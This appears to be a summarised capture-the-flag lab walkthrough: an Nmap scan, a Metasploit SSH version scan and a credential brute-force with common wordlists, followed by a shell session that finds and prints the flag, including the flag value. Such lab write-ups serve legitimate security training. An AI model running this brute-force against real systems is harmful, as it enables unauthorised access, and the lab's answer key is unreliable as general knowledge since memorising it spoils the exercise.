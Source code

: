 


Here are the summarized steps from the document in bullet points:

**Step 1: Run an Nmap scan against the target IP.**

- Command: `nmap -sS -sV 192.245.211.3`

**Step 2: Discover that the SSH service is running on the target machine. Use provided auxiliary modules against the target.**

- Commands:
    - Start Metasploit console: `msfconsole`
    - Use SSH version scanner: `use auxiliary/scanner/ssh/ssh_version`
    - Set the target IP: `set RHOSTS 192.245.211.3`
    - Exploit to identify the SSH version: `exploit`
    - Use SSH login scanner to find valid credentials:
        - `use auxiliary/scanner/ssh/ssh_login`
        - Set the target IP: `set RHOSTS 192.245.211.3`
        - Set user and password files:
            - `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
            - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt`
        - Set to stop on success: `set STOP_ON_SUCCESS true`
        - Set verbosity: `set VERBOSE true`
        - Exploit to find valid credentials: `exploit`

**Step 3: Find the flag**

- Commands:
    - List sessions: `sessions`
    - Interact with the first session: `sessions -i 1`
    - Search for the flag file: `find / -name "flag"`
    - Display the contents of the flag: `cat /flag`
    - Flag: eb09cc6f1cd72756da145892892fbf5a

These steps demonstrate the process of identifying the SSH service, scanning for valid credentials, and retrieving the flag from the target SSH server.